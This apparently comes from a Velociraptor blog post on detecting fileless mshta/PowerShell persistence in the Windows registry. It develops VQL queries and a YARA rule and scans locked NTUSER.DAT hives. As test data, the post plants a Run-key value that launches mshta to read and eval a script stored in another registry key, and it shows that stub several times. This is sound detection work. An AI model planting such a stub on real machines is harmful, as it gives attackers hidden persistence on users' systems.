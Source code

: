 Detecting powershell persistence with Velociraptor and Yara
===========================================================

I was watching the SANS DFIR Summit 2018 videos on youtube and came
across Mari DeGrazia's talk titled `"Finding and Decoding Malicious Powershell Scripts" <https://www.youtube.com/watch?v%3DJWC7fzhvAY8>`_.
This is an excellent talk and it really contains
a wealth of information. It seems that Powershell is really popular
these days, allowing attacker to "live off the land" by installing
fully functional reverse shells and backdoors, in a few lines of
obfuscated scripts.

.. more::

Mari went through a number of examples and also expanded on some in
her blog post `Malicious PowerShell in the Registry: Persistence <http://az4n6.blogspot.com/2018/06/malicious-powershell-in-registry.html>`_, where
she documents persistence through an autorun key launching powershell
to execute a payload within another registry key.

A similar persistence mechanism is documented by David Kennedy from
Binary defence in his post `PowerShell Injection with Fileless Payload Persistence and Bypass Techniques <https://blog.binarydefense.com/powershell-injection-diskless-persistence-bypass-techniques>`_. In that case an msha.exe link was
stored in the user's Run key which executed a payload from another
registry key.

I was eager to write a Velociraptor artifact to attempt to detect such
keys using a YARA signature. Of course signature based detection is
not as robust as behavioural analysis but it is quick and usually
quite effective.

I thought it was still quite instructive to document how one can
develop the VQL queries for a simple Velociraptor artifact. We will be
developing the artifact interactively on a Windows system.

Preparation
-----------

Our artifact will attempt to detect the persistence mechanism detailed
in the above posts. We start by adding a value to our test user
account under the key

.. code-block:: yaml

    Key: "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run"
    Value: "C:\Windows\system32\mshta.exe"
    Data:
      about:<script>c1hop="X642N10";R3I=new%20ActiveXObject("WScript.Shell");
      QR3iroUf="I7pL7";k9To7P=R3I.RegRead("HKCU\\software\\bkzlq\\zsdnhepyzs");
      J7UuF1n="Q2LnLxas";eval(k9To7P);JUe5wz3O="zSfmLod";</script>

Defining the Artifact.
----------------------

We create a directory called "artifacts" then create a new file inside
it called powershell_persistence.yaml. Velociraptor artifacts are just
YAML files that can be loaded at runtime using the --definitions flag.

Every artifact has a name, by convention the name is separated into
its major categories. We will call ours
Windows.Persistence.Powershell:

.. code-block:: yaml

    name: Windows.Persistence.Powershell

This is the minimum required for Velociraptor to identify it. We can
see a listing of all artifacts Velociraptor knows about using the
"artifacts list" command:

.. code-block:: console

    F:\>velociraptor.exe --definitions artifacts artifacts list
    INFO:2018/09/28 07:59:40 Loaded 34 built in artifacts
    Linux.Applications.Chrome.Extensions
    Linux.Applications.Chrome.Extensions.Upload
    …
    Windows.Persistence.Powershell
    ...
    Windows.Sys.Users

We can collect the artifact simply by using the "artifacts collect"
command:

.. code-block:: console

    F:\>velociraptor.exe --definitions artifacts artifacts collect Windows.Persistence.Powershell
    INFO:2018/09/28 20:01:32 Loaded 34 built in artifacts

Ok so Velociraptor can load and collect this new artifact, but as yet
it does nothing! We need to think about what exactly we want to
collect.

We know we want to search for all values in the Run/RunOnce hive of
all the users. Let's first see if we can retrieve all the values using
a glob:

.. code-block:: yaml

    name: Windows.Persistence.Powershell
    parameters:
      - name: keyGlob
        default: "HKEY_USERS\\*\\Software\\Microsoft\\Windows\
        \\CurrentVersion\\{Run,RunOnce}\\*"
    sources:
     - precondition:
        SELECT OS from info() where OS = "windows"
       queries:
       - |
        SELECT FullPath from glob(
           globs=keyGlob,
           accessor="reg"
        )

This artifact demonstrates a few concepts:

1. We can define parameters by name, and reference them from within
   the VQL query. This keeps the VQL query clean and more readable.

2. We can define a precondition on the artifact. If the precondition
   is not met, the VQL query will not be run.


Lets run this artifact:

.. code-block:: console

    F:\>velociraptor.exe --definitions artifacts artifacts collect Windows.Persistence.Powershell
    INFO:2018/09/28 20:51:47 Loaded 34 built in artifacts
    +--------------------------------+
    |            FullPath            |
    +--------------------------------+
    | HKEY_USERS\S-1-5-19\Software\M |
    | icrosoft\Windows\CurrentVersio |
    | n\Run\OneDriveSetup            |
    | HKEY_USERS\S-1-5-20\Software\M |
    | icrosoft\Windows\CurrentVersio |
    | n\Run\OneDriveSetup            |
    | HKEY_USERS\S-1-5-21-546003962- |
    | 2713609280-610790815-1001\Soft |
    | ware\Microsoft\Windows\Current |
    | Version\Run\"C:\Windows\system |
    | 32\mshta.exe"                  |
    +--------------------------------+
    Artifact:
    Windows.Persistence.Powershell

It returns a couple of results so there are two Run/RunOnce values
defined. For this artifact, we only want to return those entries which
match a specific yara signature. We can work later on improving the
yara signature, but for now let's just detect uses of the eval()
powershell command within 500 characters of an ActiveXObject
instantiation. We will try to match each value returned from the Run
keys with this object:

.. code-block:: yaml

    name: Windows.Persistence.Powershell
    parameters:
      - name: keyGlob
        default: "HKEY_USERS\\*\\Software\\Microsoft\\Windows\
        \\CurrentVersion\\{Run,RunOnce}\\*"
      - name: yaraRule
        default: |
        rule Powershell {
            strings:
            $ = /ActiveXObject.{,500}eval/ nocase
            $ = /ActiveXObject.{,500}eval/ wide nocase
            condition:
            any of them
        }
    sources:
     - precondition:
        SELECT OS from info() where OS = "windows"
       queries:
       - |
         // This is a stored query
        LET file = SELECT FullPath from glob(
           globs=keyGlob,
           accessor="reg"
        )
      - |
        SELECT * FROM yara(
           rules=yaraRule,
           files=file.FullPath,   // This will expand to a list of paths.
           accessor="reg")


This version recovers the FullPath of all the Run/RunOnce values and
stores them in a stored query. We then issue another query that
applies the yara rule on these values:

.. code-block:: console

    F:\>velociraptor.exe --definitions artifacts artifacts collect Windows.Persistence.Powershell
    INFO:2018/09/28 21:29:10 Loaded 34 built in artifacts
    +------------+------+------+--------------------------------+--------------------------------+
    |    Rule    | Meta | Tags |            Strings             |              File              |
    +------------+------+------+--------------------------------+--------------------------------+
    | Powershell |      |      | {"Name":"$","Offset":40,"HexDa | {"FullPath":"HKEY_USERS\\S-1-5 |
    |            |      |      | ta":["00000000  41 63 74 69 76 | -21-546003962-2713609280-61079 |
    |            |      |      |  65 58 4f  62 6a 65 63 74 28 2 | 0815-1001\\Software\\Microsoft |
    |            |      |      | 2 57  |ActiveXObject(\"W|","00 | \\Windows\\CurrentVersion\\Run |
    |            |      |      | 000010  53 63 72 69 70 74 2e 5 | \\\"C:\\Windows\\system32\\msh |
    |            |      |      | 3  68 65 6c 6c 22 29 3b 51  |S | ta.exe\"","Type":"SZ","Data":{ |
    |            |      |      | cript.Shell\");Q|","00000020   | "type":"SZ","value":"about:\u0 |
    |            |      |      | 52 33 69 72 6f 55 66 3d  22 49 | 03cscript\u003ec1hop=\"X642N10 |
    |            |      |      |  37 70 4c 37 22 3b  |R3iroUf=\ | \";R3I=new%20ActiveXObject(\"W |
    |            |      |      | "I7pL7\";|","00000030  6b 39 5 | Script.Shell\");QR3iroUf=\"I7p |
    |            |      |      | 4 6f 37 50 3d 52  33 49 2e 52  | L7\";k9To7P=R3I.RegRead(\"HKCU |
    |            |      |      | 65 67 52 65  |k9To7P=R3I.RegRe | \\\\software\\\\bkzlq\\\\zsdnh |
    |            |      |      | |","00000040  61 64 28 22 48 4 | epyzs\");J7UuF1n=\"Q2LnLxas\"; |
    |            |      |      | b 43 55  5c 5c 73 6f 66 74 77  | eval(k9To7P);JUe5wz3O=\"zSfmLo |
    |            |      |      | 61  |ad(\"HKCU\\\\softwa|","00 | d\";\u003c/script\u003e"},"Mti |
    |            |      |      | 000050  72 65 5c 5c 62 6b 7a 6 | me":{"sec":1538191253,"usec":1 |
    |            |      |      | c  71 5c 5c 7a 73 64 6e 68  |r | 538191253231489700},"Ctime":{" |
    |            |      |      | e\\\\bkzlq\\\\zsdnh|","0000006 | sec":1538191253,"usec":1538191 |
    |            |      |      | 0  65 70 79 7a 73 22 29 3b  4a | 253231489700},"Atime":{"sec":1 |
    |            |      |      |  37 55 75 46 31 6e 3d  |epyzs\ | 538191253,"usec":1538191253231 |
    |            |      |      | ");J7UuF1n=|","00000070  22 51 | 489700}}                       |


We can see that the last query returns 5 columns, but each column
actually contains objects with quite a lot of additional
information. For example, the File column returns information about
the file that matched the yara rule (its filename, timestamps
etc). The output is a bit confusing so we just return the relevant
columns. We can replace the * in the last query with a curated list of
columns to return:


.. code-block:: sql

    SELECT File.FullPath as ValueName, File.Data.value as Contents,
      timestamp(epoch=File.Mtime.Sec) as ModTime
    FROM yara(rules=yaraRule,
              files=file.FullPath,
              accessor="reg")

Which results in the quite readable:

.. code-block:: console

    F:\>velociraptor.exe --definitions artifacts artifacts collect Windows.Persistence.Powershell
    INFO:2018/09/28 21:42:18 Loaded 34 built in artifacts
    +--------------------------------+--------------------------------+---------------------------+
    |           ValueName            |            Contents            |          ModTime          |
    +--------------------------------+--------------------------------+---------------------------+
    | HKEY_USERS\S-1-5-21-546003962- | about:<script>c1hop="X642N10"; | 2018-09-28T20:20:53-07:00 |
    | 2713609280-610790815-1001\Soft | R3I=new%20ActiveXObject("WScri |                           |
    | ware\Microsoft\Windows\Current | pt.Shell");QR3iroUf="I7pL7";k9 |                           |
    | Version\Run\"C:\Windows\system | To7P=R3I.RegRead("HKCU\\softwa |                           |
    | 32\mshta.exe"                  | re\\bkzlq\\zsdnhepyzs");J7UuF1 |                           |
    |                                | n="Q2LnLxas";eval(k9To7P);JUe5 |                           |
    |                                | wz3O="zSfmLod";</script>       |                           |
    +--------------------------------+--------------------------------+---------------------------+
    Artifact: Windows.Persistence.Powershell

Great! This works and only returns values that match the yara
signature we developed.

Testing the artifact
--------------------

Let's test this artifact for real now. We restart the frontend with
the --definition flag and this makes the new artifact available in the
GUI under the Artifact Collector flow. The GUI also shows the entire
artifact we defined so we can see what VQL will be run:

.. image:: powershell1.png

Launching the flow appears to work and shows exactly the same result
as we collected on the command line:

.. image:: powershell2.png


But wait! There is a problem!
-----------------------------

When we log out of the machine, and then rerun the artifact it returns
no results!

.. image:: powershell3.png

Why is that? Experienced incident responders would recognize that any
artifact that works from the `HKEY_USERS` registry hive is inherently
unreliable. This is because the `HKEY_USERS` hive is not a real hive -
it is a place where Windows mounts the user's hive when the user logs
in.

How does HKEY_USERS hive work?
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Windows implements the concept of user profiles. Each user has a
personal registry hive that stores user specific settings. It is
actually a file stored on their home directory called ntuser.dat. When
a user logs into the workstation, the file may be synced from the
domain controller and then it is mounted under the `HKEY_USERS\<sid>`
registry hive.

This means that when the user logs out, their user registry hive is
unmounted and does not appear in `HKEY_USERS` any longer. Any
artifacts based around the `HKEY_USERS` hive will work only if the
collection is run when a user is logged in.

This is obviously not what we want when we hunt for persistence! We
want to make sure that none of the users on the system have this
persistence mechanism installed. You can imagine a case where a system
has been cleaned up but then a user logs into the machine, thereby
reinfecting it!

How to fix this?
~~~~~~~~~~~~~~~~

Yara is a very powerful tool because it allows us to search for
patterns in amorphous data (such as process memory and structured
files) without having to fully understand the structure of the data we
are searching for. Of course this has its limitations, but yara can
raise a red flag if the signature matches the file, and we can analyse
this file more carefully later.

In this case, we can not rely on globbing the `HKEY_USER` registry
hive, so maybe we can just search the files that back these hives? We
know that each user on the system has an `NTUSER.DAT` file in their
home directory (usually `C:\\Users\\<username>`), so let's write an
artifact to find these files. We can reuse the artifact
Windows.Sys.Users that reports all user accounts on a system (we
display it as JSON to enhance readability):

.. code-block:: console

    F:\>velociraptor.exe artifacts collect Windows.Sys.Users --format json
    INFO:2018/09/28 22:44:26 Loaded 34 built in artifacts
    {
     "Description": "",
     "Directory": "C:\\Users\\test",
     "Gid": 513,
     "Name": "test",
     "Type": "local",
     "UUID": "S-1-5-21-546003962-2713609280-610790815-1001",
     "Uid": 1001
    },
    {
     "Description": "",
     "Directory": "C:\\Users\\user1",
     "Gid": 513,
     "Name": "user1",
     "Type": "local",
     "UUID": "S-1-5-21-546003962-2713609280-610790815-1003",
     "Uid": 1003
    },


So we just want to YARA scan the NTUSER.DAT file in each home directory:

.. code-block:: sql

     SELECT * from foreach(
     row={
        SELECT Name, Directory as HomeDir
          FROM Artifact.Windows.Sys.Users()
         WHERE Directory.value and Gid
     },
     query={
       SELECT File.FullPath As FullPath,
              Strings.Offset AS Off,
              Strings.HexData As Hex,
               upload(file=File.FullPath, accessor="ntfs") AS Upload
           FROM yara(
                 files="\\\\.\\" + HomeDir + "\\ntuser.dat",
                 accessor="ntfs",
                 rules=yaraRule, context=10)
           })

This query:

1. Selects all the usernames and their home directory from the
   Windows.Sys.Users artifact.

2. For each directory prepends `\\\\.\\` and appends "ntuser.dat". For
   example `c:\\Users\\test` becomes
   `\\\\.\\c:\\Users\\test\\NTUSER.dat`

3. The file is accessed using the NTFS filesystem accessor. This is
   necessary because the registry hive is locked if the user is logged
   in. Therefore we must access it using raw NTFS parsing to bypass
   the OS locking.

4. For each file that matches the yara expression, we upload the file
   to the server for further analysis.


Lets run this new artifact on the server:

.. image:: powershell5.png

Unlike the previous artifact, this one simply returns the YARA hit,
but because we do not have any context on which value contained the
signature, or even if it had been deleted. Luckily we uploaded the raw
registry hive for further analysis, and we can use a tool such as
RegRipper to extract more information from the hive:

.. code-block:: console

    $ wine rip.exe -p user_run -r
    /tmp/velociraptor/clients/C.c916a7e445eb0868/uploads/F.078739d6/ntfs/
    %5C%5C.%5CC%3A%5CUsers%5Cuser1%5CNTUSER.DAT
    Launching user_run v.20140115
    user_run v.20140115
    (NTUSER.DAT) [Autostart] Get autostart key contents from NTUSER.DAT hive

    Software\Microsoft\Windows\CurrentVersion\Run
    LastWrite Time Thu Sep 27 01:19:08 2018 (UTC)
     OneDrive: "C:\Users\user1\AppData\Local\Microsoft\OneDrive\OneDrive.exe"
       /background
     c:\windows\system32\mshta.exe: about:<script>c1hop="X642N10";
       R3I=new%20ActiveXObject("WScript.Shell");
       QR3iroUf="I7pL7";k9To7P=R3I.RegRead("HKCU\\software\\
       bkzlq\\zsdnhepyzs");J7UuF1n="Q2LnLxas";eval(k9To7P);JUe5wz3O="zSfmLod";</script>

Note above how we can simply retrieve the uploaded file from
Velociraptor's filestore. Velociraptor stores uploaded files on the
filesystem within the flow's directory.

Conclusions
~~~~~~~~~~~

In this blog post we saw how to utilize YARA to find suspicious
powershell persistence mechanisms. YARA is a powerful tool and using
Velociraptor's artifacts we can apply it to files, registry values,
and raw NTFS files such as locked registry hives and the pagefile.

We also saw some of the inherent problems with relying on the
`HKEY_USERS` registry hive for detection - the hive is only present
when a user is logged in so when we hunt, we might miss those users
who are currently logged out. We saw how `YARA` can be used to detect
suspicious patterns in raw registry hive files and how artifacts may
retrieve those files for further analysis.


.. author:: default
.. categories:: none
.. tags:: none
.. comments::
